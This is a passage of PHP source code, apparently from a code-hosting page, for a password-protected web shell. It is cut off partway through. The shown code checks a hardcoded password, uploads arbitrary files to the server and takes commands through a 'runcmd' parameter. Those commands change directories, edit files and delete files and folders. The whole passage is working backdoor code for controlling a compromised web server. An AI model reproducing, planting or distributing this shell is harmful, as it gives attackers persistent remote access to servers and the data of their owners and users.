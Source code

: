 border-collapse: collapse;
border: 1px solid #FFFFFF;
}
body {
color: #FFFFFF;
font-family: verdana;
}
</style>';
$sess = __FILE__ . $password;
if (isset($_POST['p4ssw0rD'])) {
    if ($_POST['p4ssw0rD'] == $password) {
        $_SESSION[$sess] = $_POST['p4ssw0rD'];
    } else {
        die("Wrong password");
    }
}
if ($_SESSION[$sess] == $password) {
    if (isset($_SESSION['workdir'])) {
        if (file_exists($_SESSION['workdir']) && is_dir($_SESSION['workdir'])) {
            chdir($_SESSION['workdir']);
        }
    }
    if (isset($_FILES['uploadedfile']['name'])) {
        $target_path = "./";
        $target_path = $target_path . basename($_FILES['uploadedfile']['name']);
        if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
        }
    }
    if (isset($_GET['runcmd'])) {
        $cmd = $_GET['runcmd'];
        print "<b>" . get_current_user() . "~# </b>" . htmlspecialchars($cmd) . "<br>";
        if ($cmd == "") {
            print "Empty Command..type \"shellhelp\" for some ehh...help";
        } elseif ($cmd == "upload") {
            print '<br>Uploading to: ' . realpath(".");
            if (is_writable(realpath("."))) {
                print "<br><b>I can write to this directory</b>";
            } else {
                print "<br><b><font color=red>I can't write to this directory, please choose another one.</b></font>";
            }
        } elseif ((ereg("changeworkdir (.*)", $cmd, $file)) || (ereg("cd (.*)", $cmd, $file))) {
            if (file_exists($file[1]) && is_dir($file[1])) {
                chdir($file[1]);
                $_SESSION['workdir'] = $file[1];
                print "Current directory changed to " . $file[1];
            } else {
                print "Directory not found";
            }
        } elseif (ereg("editfile (.*)", $cmd, $file)) {
            if (file_exists($file[1]) && !is_dir($file[1])) {
                print "<form name=\"saveform\"><textarea cols=70 rows=10 id=\"area1\">";
                $contents = file($file[1]);
                foreach ($contents as $line) {
                    print htmlspecialchars($line);
                }
                print "</textarea><br><input size=80 type=text name=filetosave value=" . $file[1] . "><input value=\"Save\" type=button onclick=\"SaveFile();\"></form>";
            } else {
                print "File not found.";
            }
        } elseif (ereg("deletefile (.*)", $cmd, $file)) {
            if (is_dir($file[1])) {
                if (rmdir($file[1])) {